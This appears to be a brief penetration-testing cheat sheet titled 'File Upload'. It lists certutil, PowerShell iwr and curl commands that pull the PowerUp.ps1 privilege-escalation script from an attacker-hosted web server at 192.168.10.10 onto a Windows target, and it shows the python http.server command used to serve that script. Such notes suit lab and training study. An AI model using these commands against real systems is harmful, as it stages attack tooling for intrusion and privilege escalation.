 # File Upload

    certutil.exe -urlcache -split -f http://192.168.10.10/PowerUp.ps1 ( only run on cmd)

    iwr -uri http://192.168.10.10/PowerUp.ps1 -Outfile PowerUp.ps1 (power shell)

    curl 192.168.10.10/PowerUp.ps1 -Outfile PowerUp.ps1 (both)

Start http server with 

    python3 -m http.server 80 or 81 etc
